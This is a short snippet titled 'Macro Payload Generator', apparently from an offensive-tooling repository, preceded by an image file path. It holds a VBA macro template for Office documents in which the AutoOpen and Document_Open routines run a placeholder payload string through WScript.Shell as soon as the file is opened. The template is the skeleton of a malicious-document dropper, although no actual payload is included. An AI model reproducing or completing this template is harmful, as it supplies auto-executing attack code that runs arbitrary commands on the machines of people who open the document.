 # Macro Payload Generator
    Sub AutoOpen()
        MyMacro
    End Sub
    
    Sub Document_Open()
        MyMacro
    End Sub
    
    Sub MyMacro()
        Dim Str As String
        
        #paste payload here
        
        CreateObject("Wscript.Shell").Run Str
    End Sub
